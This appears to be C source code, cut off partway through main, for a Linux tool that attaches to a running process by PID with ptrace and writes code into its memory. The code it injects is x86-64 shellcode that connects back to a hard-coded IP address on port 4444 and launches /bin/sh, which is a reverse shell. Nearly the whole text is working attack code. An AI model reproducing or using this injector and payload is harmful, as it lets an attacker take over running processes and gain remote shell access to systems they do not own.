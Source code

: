 ```c

#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>

#include <sys/user.h>
#include <sys/reg.h>

#define SHELLCODE_SIZE 74

unsigned char *shellcode = 
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48"
"\xb9\x02\x00\x11\x5c\xac\x10\x2a\x64\x51\x48\x89\xe6\x6a\x10"
"\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58"
"\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"; 


int
inject_data (pid_t pid, unsigned char *src, void *dst, int len)
{
  int      i;
  uint32_t *s = (uint32_t *) src;
  uint32_t *d = (uint32_t *) dst;

  for (i = 0; i < len; i+=4, s++, d++)
    {
      if ((ptrace (PTRACE_POKETEXT, pid, d, *s)) < 0)
	{
	  perror ("ptrace(POKETEXT):");
	  return -1;
	}
    }
  return 0;
}

int
main (int argc, char *argv[])
{
  pid_t                   target;
  struct user_regs_struct regs;
  int                     syscall;
  long                    dst;

  if (argc != 2)
    {
      fprintf (stderr, "Usage:\n\t%s pid\n", argv[0]);
      exit (1);
    }
  target = atoi (argv[1]);
  printf ("+ Tracing process %d\n", target);

  if ((ptrace (PTRACE_ATTACH, target, NULL, NULL)) < 0)
    {
      perror ("ptrace(ATTACH):");
      exit (1);
    }

  printf ("+ Waiting for process...\n");
  wait (NULL);

  printf ("+ Getting Registers\n");
```